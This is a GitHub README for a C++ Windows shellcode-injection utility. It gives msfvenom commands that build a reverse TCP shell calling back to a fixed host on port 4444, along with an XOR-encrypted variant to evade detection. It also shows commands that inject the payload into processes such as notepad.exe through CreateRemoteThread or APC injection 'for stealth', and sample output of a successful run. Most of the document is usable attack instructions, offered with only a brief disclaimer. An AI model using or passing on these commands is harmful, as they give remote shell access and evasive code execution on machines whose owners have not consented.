 # 🔥 Memory Manipulation Utility 🔥

> A powerful C++ tool to read, XOR‑encrypt/decrypt, and inject hex shellcode into Windows processes via CreateRemoteThread or APC injection. 🛠️💉

---

## 🚀 Features

- 📂 **Hex Payload I/O**: Read and write hex‑encoded shellcode files
- 🔑 **XOR Encryption/Decryption**: Secure your payload at rest with a key, decrypt in-memory just before execution
- 💉 **Injection Methods**:
  - **CreateRemoteThread** injection
  - **APC (Asynchronous Procedure Call)** injection for stealth
- 🔍 **Payload Validation**:
  - PE header check (MZ)
  - Entropy analysis to detect invalid data
- 🎛️ **Flexible CLI**: Intuitive options for encryption, decryption, and injection

---

## 📋 Requirements

- Windows OS (x64)
- Visual Studio or a compatible C++17 compiler
- **msfvenom** (part of Metasploit) for shellcode generation

---

## ⚙️ Installation & Build

1. Clone this repo:
   ```bash
   git clone https://github.com/ShorterKing/Hexinjector-XOR.git
   cd Hexinjector-XOR
   ```
2. Build with Visual Studio or via CLI:
   ```powershell
   cl /std:c++17 /O2 main.cpp /link /out:memutil.exe
   ```

---

## 🐍 Generating Hex Shellcode with msfvenom

Generate a reverse TCP shell (unencrypted):

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.26.243.224 LPORT=4444 -f hex -o payload.hex
```

Generate and XOR-encrypt in one step:

```bash
msfvenom -p windows/x64/shell_reverse_tcp --encrypt xor --encryption-key hacker LHOST=172.26.243.224 LPORT=4444 -f hex -o payload_encrypted.hex
```

---

## 💻 Usage

```bash
memutil.exe [options]
```

| Option | Description                                                      | Example                                                        |
|:------:|:-----------------------------------------------------------------|:---------------------------------------------------------------|
| `-i`   | Input hex payload file                                           | `-i payload.hex`                                               |
| `-p`   | Target process PID or executable name                            | `-p notepad.exe` or `-p 1234`                                  |
| `-x`   | XOR key for encryption/decryption                                | `-x secret123`                                                 |
| `-e`   | **Encrypt** mode: specify output file (will not inject)          | `-e encrypted_payload.hex`                                     |
| `-a`   | Use **APC** injection instead of CreateRemoteThread              | `-a`                                                           |
| `-h`   | Display help                                                     | `-h`                                                           |


### 🔒 Encrypt Payload (no injection)

```bash
memutil.exe -i payload.hex -e payload_enc.hex -x myKey
```

- Reads `payload.hex` ➡️ XOR‑encrypts with key `myKey` ➡️ writes `payload_enc.hex`

### 💉 Inject Payload

1. **Raw** payload into Notepad:
   ```bash
   memutil.exe -i payload.hex -p notepad.exe
   ```
2. **Encrypted** payload (decrypt & inject):
   ```bash
   memutil.exe -i payload_enc.hex -p 1234 -x myKey
   ```
3. **APC** injection:
   ```bash
   memutil.exe -i payload.hex -p notepad.exe -a
   ```

---

## 🔍 How It Works

1. **ReadHexFile**: Parses `.hex` into a byte vector
2. **XORData**: Applies XOR with key (same function for encrypt/decrypt)
3. **ValidatePayload**: Checks PE signature (`0x4D 0x5A`) and entropy
4. **Injection**:
   - **CreateRemoteThread**: Standard remote thread creation
   - **APC**: Queues an Asynchronous Procedure Call on a target thread for stealth

---

## 📝 Example Output

```
[+] Read 512 bytes from payload.hex
[+] XOR decryption applied with key: myKey
[+] Payload appears to be a valid PE executable
[+] Resolved process notepad.exe to ID: 4321
[+] Successfully injected payload into process 4321
[+] Operation completed successfully
```

---

## ⚠️ Disclaimer

> **For educational and authorized penetration testing only!**
> Misuse of this tool against systems without permission is illegal.

---

## 🙏 Contributions

Feel free to ⭐️ the repo and submit PRs to improve functionality! 🛠️

---

© 2025 Akshat Singh • [Apache License 2.0](LICENSE)

